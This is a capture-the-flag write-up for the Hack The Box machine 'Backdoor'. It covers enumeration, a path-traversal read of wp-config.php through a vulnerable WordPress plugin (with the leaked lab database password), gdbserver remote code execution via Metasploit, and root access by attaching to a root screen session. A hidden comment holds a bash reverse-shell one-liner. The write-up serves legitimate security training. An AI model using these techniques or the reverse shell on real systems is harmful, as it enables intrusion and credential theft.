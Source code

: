 ![](backdoor_banner.png)

<p align="right">   <a href="https://www.hackthebox.eu/home/users/profile/391067" target="_blank"><img loading="lazy" alt="x00tex" src="https://www.hackthebox.eu/badge/image/391067"></a>
</p>

# Enumeration

**IP-ADDR:** 10.10.11.125 backdoor.htb

**nmap scan:**
```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 b4:de:43:38:46:57:db:4c:21:3b:69:f3:db:3c:62:88 (RSA)
|   256 aa:c9:fc:21:0f:3e:f4:ec:6b:35:70:26:22:53:ef:66 (ECDSA)
|_  256 d2:8b:e4:ec:07:61:aa:ca:f8:ec:1c:f8:8c:c1:f6:e1 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-generator: WordPress 5.8.1
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Backdoor &#8211; Real-Life
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Web server is running wordpress.

with wpscan, collected some information.

* : WordPress version 5.8.1 identified
* [i] User(s) Identified: admin

## WP-Plugin:eBook Download 1.1 - LFI/RFI

Manually go through wp common directories `/wp-content` and `/wp-includes`

* `/wp-includes` allowed indexing but nothing interesting there.
* `/wp-content`is not indexing but `/wp-content/plugins` directory is allowed indexing

there is a plugin in plugins directory

![](screenshots/index-plugin.png)

```bash
❯ searchsploit wordpress ebook download
----------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                     |  Path
----------------------------------------------------------------------------------- ---------------------------------
WordPress Plugin eBook Download 1.1 - Directory Traversal                          | php/webapps/39575.txt
----------------------------------------------------------------------------------- ---------------------------------
```

And right off the bat found Directory Traversal vulnerability in WordPress Plugin eBook Download 1.1 from searchsploit.

its simply allowed file inclusion from `/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=../../../wp-config.php`

with lfi, get the `wp-config.php` file and db creds: `wordpressuser:MQYBJSaD#DxG6qbm`.

**Don't get anything interesting**

Moving on to port 1337 but not able to identify the service.

## identifying services with `/proc`

we have lfi that means we can read system file and use this ability and try to find the port 1337 service.

in linux everything is file even a running process and we can read every process from `/proc`; **Source: proc [man page](https://man7.org/linux/man-pages/man5/proc.5.html)**

**`/proc`** : The proc filesystem is a pseudo-filesystem which provides an interface to kernel data structures.

**`/proc/[pid]`** : subdirectories Each one of these subdirectories contains files and subdirectories exposing information about the process with the corresponding process ID.

**`/proc/[pid]/cmdline`** : This read-only file holds the complete command line for the process.

I use burp intruder to brute force pid to find the process.

![](screenshots/proc-is-useful.png)

For current boot, the PID for service that running on port 1337 in `862`
```bash
/bin/sh -c while true;do su user -c "cd /home/user;gdbserver --once 0.0.0.0:1337 /bin/true;"; done
```

## GDBserver Remote Payload Execution

Port 1337 is running gdbserver. We can connect to this service with gdb.

![](screenshots/gdb-connect.png)

There is a very old (2013) technique on gdbserver to RCE from [jbremer.org](http://jbremer.org/turning-arbitrary-gdbserver-sessions-into-rce/)

To make this easy there is a metasploit module based on this exploit.

![](screenshots/gdb-msf-module.png)

Running msf module and get shell on the box

![](screenshots/run-msf.png)

<!--
/bin/bash -c "bash -i >& /dev/tcp/10.10.14.40/4141 0>&1"
-->

# Privesc

## suid: `screen`

Running find command for setuip binary on the box and found `/usr/bin/screen` with setuip bit permission.

![](screenshots/find-setuid.png)

And  screen version `Screen version 4.08.00 (GNU) 05-Feb-20`

There is a [CVE-2017-5618](https://www.cvedetails.com/cve/CVE-2017-5618/) in GNU screen before 4.5.1 allows local users to modify arbitrary files and consequently gain root privileges by leveraging improper checking of log file permissions.

Found exploit: https://github.com/XiphosResearch/exploits/tree/master/screen2root

But looks like this version of screen is not vulnerable for this exploit.

Another thing we can check is screen sessions with `screen -ls <username>/`
```bash
(remote) user@Backdoor:/etc$ screen -ls user/
No Sockets found in /run/screen/S-user.
```

And because screen command have suid permission we can also view root user sessions.
```bash
(remote) user@Backdoor:/etc$ screen -ls root/
There is a suitable screen on:
	53053.root	(11/22/21 07:35:40)	(Multi, detached)
1 Socket in /run/screen/S-root.
```

And there is one session active named `root`. We can access it with `screen -x <username>/<session-name>`
```bash
screen -x root/root
```
